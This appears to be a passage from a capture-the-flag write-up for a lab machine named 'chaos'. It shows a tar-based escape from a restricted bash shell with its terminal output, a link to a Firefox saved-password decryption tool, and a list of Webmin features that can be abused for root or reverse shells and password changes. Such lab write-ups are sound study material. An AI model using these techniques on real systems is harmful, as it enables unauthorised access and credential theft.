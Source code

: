 {% accordion How to break out of rbash? %}
``` shell
ayush@chaos:/$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
bash: groups: command not found
ayush@chaos:/$ cd ~
ayush@chaos:~$ ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found
ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ayush@chaos:~$ ls
mail  user.txt
```
{% endaccordion %}

{% accordion How to extract data from FireFox profile? %}
https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
{% endaccordion %}

{% accordion Some methods to get shell for Webmin %}
- Other ⇨ Command Shell: load an overlay with a root shell
- System ⇨ Change Password: change root password
- System ⇨ Schedule Cron Jobs: set a cron job
- System ⇨ Filesystem Backup: arbitrary file modification
- System ⇨ Scheduled Commands: schedule reverse shell
- Others ⇨ Custom Commands: add a command for a reverse shell
- Others ⇨ File Manager: arbitrary file modification
- Others ⇨ HTTP Tunnel: access to local services
- Others ⇨ Java File Manager: malicious java module
- Others ⇨ Perl Modules: malicious perl module
- Others ⇨ PHP Modules: malicious php module
- Others ⇨ Upload and Download: arbitrary file modification
{% endaccordion %}
